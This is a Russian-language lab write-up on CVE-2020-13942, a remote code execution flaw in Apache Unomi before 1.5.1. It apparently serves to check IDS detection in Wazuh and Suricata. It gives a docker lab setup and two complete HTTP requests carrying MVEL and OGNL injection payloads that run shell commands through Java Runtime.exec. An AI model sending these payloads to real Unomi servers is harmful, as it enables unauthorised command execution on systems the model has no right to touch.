 # CVE-2020-13942

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2020-13942](https://nvd.nist.gov/vuln/detail/CVE-2020-13942)
* [https://www.opencve.io/cve/CVE-2020-13942](https://www.opencve.io/cve/CVE-2020-13942)

Apache Unomi — это платформа данных о клиентах с открытым исходным кодом Java, сервер Java, предназначенный для управления данными о клиентах, потенциальных клиентах и ​​посетителях, а также для персонализации обслуживания клиентов. В версиях до 1.5.1 Apache Unomi позволял злоумышленникам отправлять вредоносные запросы с выражениями MVEL и OGNL, которые могли содержать произвольные классы, что приводило к удаленному выполнению кода (RCE) с привилегиями приложения Unomi.

### Эксплуатация уязвимости

Для запуска уязвимой среды выоплните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8181 будет доступна стандартная страница Apache Unomi

<figure><img src="../../.gitbook/assets/cve-2020-13942(1).png" alt=""><figcaption></figcaption></figure>

Выполнение произвольных команд через выражения MVEL:

```
POST /context.json HTTP/1.1
Host: ваш-ip:8181
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 483

{
    "filters": [
        {
            "id": "sample",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"touch /tmp/mvel\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "sample"
}
```

Выполнение произвольных команд через выражения OGNL:

```
POST /context.json HTTP/1.1
Host: ваш-ip:8181
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 1060

{
  "personalizations":[
    {
      "id":"gender-test",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"touch /tmp/ognl\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"sample"
}
```

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/cve-2020-13942(2).png" alt=""><figcaption></figcaption></figure>
